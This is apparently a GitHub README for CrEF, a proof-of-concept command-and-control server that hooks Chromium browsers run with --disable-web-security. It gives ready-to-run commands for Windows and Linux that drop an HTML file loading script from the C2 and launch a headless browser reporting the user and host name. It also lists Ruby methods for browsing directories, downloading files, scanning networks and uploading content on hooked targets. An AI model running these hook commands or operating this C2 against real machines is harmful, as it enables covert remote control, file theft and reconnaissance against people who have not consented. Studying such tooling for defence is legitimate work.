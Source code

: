 <div align="center">
	<h1>CrEF - Chromium Exploitation Framework</h1>
	<img src="./assets/CrEF-logo.png" alt="CrEF-logo" title="CrEF-logo" />
</div>

---

> **Author**::      TW-D
>
> **Version**::     1.0.0

---

## DESCRIPTION

Proof of concept of a command and control server enabling hooking of Chromium-based browsers launched with the **--disable-web-security** flag.

## TESTED ON

>
> **Microsoft Windows 10 Professionnel 22H2 and Microsoft Edge 132**
>
> *%USERPROFILE%\AppData\Local\Microsoft\Edge\User Data\Default*
>

>
> **Ubuntu 22.04.5 LTS and Chromium 132/133 (snap)**
>
> *"${HOME}/snap/chromium/common/chromium/Default"*
>

## INSTALLATION

For Debian-based Linux distributions.

```bash
hacker@hacker-computer:~$ sudo apt-get install ruby ruby-dev php8.3-cli
hacker@hacker-computer:~$ sudo gem install tty nokogiri
```

## USAGE

This step is strongly recommended ; it is advised to rename the default folder "./www/**data-U2lsZW5jZSBpcyBnb2xkZW4K**/" by following the steps below.

```bash
hacker@hacker-computer:~/CrEF$ cd ./www/
hacker@hacker-computer:~/CrEF/www$ mv ./data-U2lsZW5jZSBpcyBnb2xkZW4K/ ./data-"$(< /dev/urandom tr -cd 'A-Za-z0-9' | head -c 32)"/
```

The hooked browsers must communicate with a web server; PHP was deliberately chosen for its popularity.

```bash
hacker@hacker-computer:~/CrEF$ php -d memory_limit=2G -d post_max_size=1G -d max_execution_time=300 -d upload_max_filesize=1G -S 0.0.0.0:8000 -t ./www/
```

After renaming the directory "./www/**data-U2lsZW5jZSBpcyBnb2xkZW4K**/" and starting the web server, you will also need to manually update the values in the **./cli.rb** *(line 3)*, **./www/index.php** *(lines 11 and 12)* and **./payloads/targets_list.rb** *(line 3)* files.

>
> Steps to hook a Microsoft Edge browser on Microsoft Windows:
>

```batch
C:\Users\target> ECHO ^<body^>^<script src="http://127.0.0.1:8000/index.js"^>^</script^> > %TMP%\x.html

C:\Users\target> "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --disable-web-security --headless --no-first-run --user-data-dir="%TMP%" "file:///%TMP%\x.html?u=%USERNAME%&c=%COMPUTERNAME%"
```

>
> Steps to hook a Chromium browser on Debian-Based Linux distributions:
>

```bash
target@target-computer:~$ wget --quiet --output-document="-" http://127.0.0.1:8000/ > ./x.html
target@target-computer:~$ # OR
target@target-computer:~$ echo "<body><script src=\"http://127.0.0.1:8000/index.js\"></script>" > ./x.html

target@target-computer:~$ chromium --disable-web-security --headless --no-first-run --user-data-dir="/tmp/${RANDOM}/" "file://${HOME}/x.html?u=${USER}&c=$(hostname)"
```

> [!NOTE]
> *127.0.0.1* is a sample address used for local testing.

### CLI MODE

To command and control the hooked browsers, a CLI version is available. You can run this command to get started:

```bash
hacker@hacker-computer:~/CrEF$ ruby -W0 ./cli.rb
```

#### SCREENSHOT

![CrEF-cli](./assets/CrEF-cli.png "CrEF-cli")

### SCRIPTING MODE

For more precise actions, a SCRIPTING version is also available by loading the library **./lib/command_control.rb** and leveraging its methods along with programming.

```bash
hacker@hacker-computer:~/CrEF$ cd ./payloads/
hacker@hacker-computer:~/CrEF/payloads$ ruby -W0 ./targets_list.rb
[{"target_status"=>"🟢",
  "session_id"=>1,
  "remote_address"=>"127.0.0.1",
  "computer_name"=>"target-computer",
  "user_name"=>"target",
  "platform_name"=>"Linux",
  "last_seen"=>"05/13/2025 03:29:17 PM"}]
[...]
```

> [!NOTE]
> The *./targets_list.rb* file is a sample helper file.

#### METHODS

```ruby
# Loads the list of targets by parsing JSON files found in the data directory.
#
# @return [Array<Hash>] Returns an array of hashes representing target sessions with their information (excluding user_agent).
def load_targets

# Loads the data for a specific target session.
#
# @param target_session [Hash] A hash containing session information, including 'remote_address' and 'computer_name'.
# @return [Boolean, Hash] Returns a hash with the target data if the file exists, otherwise false.
def load_target(target_session)

# Loads the HTML tree structure for a specific target session.
#
# @param target_session [Hash] A hash containing session information, including 'remote_address' and 'computer_name'.
# @return [Array<Array>] Returns an array of arrays with details for each row of the HTML table (type, link, size, date).
def load_tree(target_session)

# Sends a command to access a specific URL within the target session.
#
# @param target_session [Hash] The target session hash.
# @param destination_url [String] The URL to access.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def access_url(target_session, destination_url)

# Sends a command to browse a specific directory within the target session.
#
# @param target_session [Hash] The target session hash.
# @param source_directory [String] The directory path to browse.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def browse_directory(target_session, source_directory)

# Sends a command to download a specific file from the target session.
#
# @param target_session [Hash] The target session hash.
# @param source_file [String] The full path to the file to download.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def download_file(target_session, source_file)

# Sends a command to scan a network address from the target session.
#
# @param target_session [Hash] The target session hash.
# @param destination_address [String] The network address to scan.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def scan_address(target_session, destination_address)

# Sends a command to upload a URL to the target session.
#
# @param target_session [Hash] The target session hash.
# @param source_url [String] The URL to upload.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def upload_url(target_session, source_url)
```

## LICENSE

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=flat&logo=GitHub&labelColor=1D272B&color=819188&logoColor=white)](./LICENSE-MIT)
[![License: Apache 2.0](https://img.shields.io/badge/License-Apache%202.0-blue.svg?style=flat&logo=GitHub&labelColor=1D272B&color=819188&logoColor=white)](./LICENSE-APACHE)

Licensed under either of [Apache License Version 2.0](./LICENSE-APACHE) or [The MIT License](./LICENSE-MIT) at your option.

## COPYRIGHT

© 2025, [TW-D](https://github.com/TW-D)
